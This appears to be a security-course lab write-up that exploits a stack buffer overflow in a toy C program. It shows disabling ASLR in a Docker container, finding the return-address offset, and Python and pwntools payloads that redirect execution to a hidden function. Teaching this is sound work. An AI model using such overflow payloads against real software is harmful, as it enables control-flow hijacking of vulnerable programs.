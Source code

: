 ```yaml
---
layout: post
title: Stack Smash Branching
category: system_security
author: 'reo'
tags: python seclab docker c
mathjax: 
---
```


The goal of this exercise will be to introduce a series of attacks where the vulnerability
is a seemingly innocuous buffer overflow. This Introductory exercise will allow us to branch
to an unintended location of the program.

## Contents
{:.no_toc}

* Content
{:toc}

<br>

***

## Setup

***

To not compromise the security of our machine, we do the attack within
a docker container. For the purposes of this attack, we disable ASLR and `dmesg`
restrictions within the docker container. The flags we
use are

- `-v` to specify a directory which will be shared with the container
- `--privileged` so the container can alter `randomize_va_space`

```
$ docker run -v $(pwd):/shared --privileged -it thierrysans/vulnerable:stack-smashing-branching bash
# echo 0 > /proc/sys/kernel/randomize_va_space
# echo 0 > /proc/sys/kernel/dmesg_restrict
```

Suppose the target is the C program

```c
#include <stdio.h>

void secretFunction(){
    printf("You have entered the secret function!\n");
}

void echo(){
    char buffer[20];
    printf("Enter some text:\n");
    scanf("%s", buffer);
    printf("You entered: %s\n", buffer);
}

int main(int argc, char **argv){
    echo();
    return 0;
}
```

compiled for a 32-bit architecture, no stack protection.

```
# gcc /shared/vuln.c -o /shared/vuln -fno-stack-protector -m32
```

Our goal
is to manipulate the flow of the program
to execute the code within `secretFunction()`.

<br>

***

## Observations

***

We notice that `echo()` is vulnerable to a buffer overflow. To
see precisely the space allocated by the compiler, we can decompile.

```
/shared# objdump -d -M intel vuln > dump.dmp
```

Looking into the calls in `<echo>` we notice

```
 80484bd:	8d 45 e4             	lea    eax,[ebp-0x1c]
```

So the buffer is `0x1c` or 28 bytes before the base pointer `ebp`.
We can see this overflow in action by sending more bytes than the
reserved 28, say 36 bytes filling the first 28 with `'a'`.

```
/shared# ./vuln
Enter some text:
aaaaaaaaaaaaaaaaaaaaaaaaaaaabcdefghi
You entered: aaaaaaaaaaaaaaaaaaaaaaaaaaaabcdefghi
Segmentation fault (core dumped)
```

As expected, we get a segmentation fault. Checking the kernel debug message
we see

```
/shared# dmesg | grep "vuln" | tail -n 1
[ 8695.782039] vuln[3654]: segfault at 69686766 ip 0000000069686766 sp 00000000ffffd7b0 error 14
```

of special note here is where the segfault occured, `66, 67, 68, 69` are the
hex for `f,g,h,i` respectively (when decoded from ascii).

<br>

***

## Manipulating the Return Address

***

If we send the address
of the target function `0804848b` instead of these ascii characters, we can get
the program to jump to the desired location. This can be done with a short
python script

```python
import sys
payload = b'a'*32 + b'\x8b\x84\x04\x08'
sys.stdout.buffer.write(payload)
```

running now

```
/shared# python3 python3 payload.py | vuln
Enter some text:
You entered: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
You have entered the secret function!
Segmentation fault (core dumped)
```

we accessed the secret function as expected.

<br>

***

## Abstracting the Approach

***

Our attack can be improved if we use pwntools instead
of the more manual approach we have done until now.

```python
from pwn import *
pwnlib.term.term_mode= False
```

We use [ELF](https://en.wikipedia.org/wiki/Executable_and_Linkable_Format)
to look up the address of the secret function.
```python
def run(path_to_vuln_prgm):
    e = ELF(path_to_vuln_prgm)
    addr = p32(e.symbols['secretFunction'])
```

we next send 512 bytes looking for precisely where the overflow occurs.
We use [cyclic](https://docs.pwntools.com/en/stable/util/cyclic.html)
for that purpose.

```python
    payload = cyclic(512)
    p = process(path_to_vuln_prgm)
    p.sendline(payload)
    p.wait_for_close()
    dbg_info = process('dmesg | grep "vuln" | tail -n 1', stdout=subprocess.PIPE,
            shell=True).recvall()
    eip = int(re.search(b'at\ (.*)\ ip', dbg_info).group(1), 16)
    overflow_len = cyclic_find(p32(eip))
```

knowing both the address and the size of the buffer we send the appropraite payload
for our attack

```python
    payload = b'a'*(overflow_len) + addr
    # this is a special way to print bytes string with non utf-8 characters
    p = process(path_to_vuln_prgm)
    p.sendline(payload)
    p.wait_for_close()
    print(payload)
    sys.stdout.buffer.write(p.recvall())
```

which prints the secret function message as expected.

<br>

***

## Cleanup

***

Finally, don't forget to check that the protections are enabled for your own
machine

```
$ echo 2 > /proc/sys/kernel/randomize_va_space
$ echo 1 > /proc/sys/kernel/dmesg_restrict
```

also don't forget to [clean up](/crypto/2020/10/08/05-lab.html#docker-cleanup)
after Docker.

{% include lab_credits.md %}

This post was inspired by [another cool blog post](https://dhavalkapil.com/blogs/Buffer-Overflow-Exploit/).
